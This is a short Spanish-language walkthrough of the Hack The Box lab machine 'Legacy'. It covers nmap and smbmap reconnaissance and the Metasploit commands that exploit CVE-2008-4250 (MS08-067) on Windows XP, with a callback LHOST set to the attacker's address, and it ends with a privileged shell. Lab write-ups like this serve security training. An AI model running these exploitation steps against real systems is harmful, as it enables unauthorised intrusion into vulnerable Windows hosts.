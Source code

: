 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 10/10/2017'
---
```


# Legacy

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.4
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.4
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 135 (MS RPC):** Este puerto es utilizado para la comunicación de servicios como DCOM y MSRPC. Puede ser vulnerable a exploits si no está debidamente asegurado. Puedes buscar si hay alguna versión vulnerable de MSRPC, como las que se vieron con ataques como MS08-067.
* **Puerto 139 y 445 (SMB):** Ambos puertos están asociados a servicios de compartición de archivos y recursos en redes Windows. Los vectores de ataque conocidos incluyen ataques de SMB Relay y exploits como EternalBlue (CVE-2017-0144). Es recomendable realizar un escaneo de vulnerabilidades para verificar si estos puertos son accesibles desde fuera y si están expuestos a vulnerabilidades conocidas.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 10.10.10.4
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos el protocolo SMB.

```bash
smbmap -H 10.10.10.4
```

No vemos nada. Revisamos si tiene un CVE.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Al ser un Windows XP y revisando por internet encontramos que hay un **CVE-2008-4250** por lo que abrimos Metasploit para explotarlo.

```bash
search CVE-2008-4250
use 0
show options
set RHOSTS 10.10.10.4
set LHOST 10.10.14.7
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
getuid
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Somos **root**.

<figure><img src="../../.gitbook/assets/image (1232).png" alt=""><figcaption></figcaption></figure>
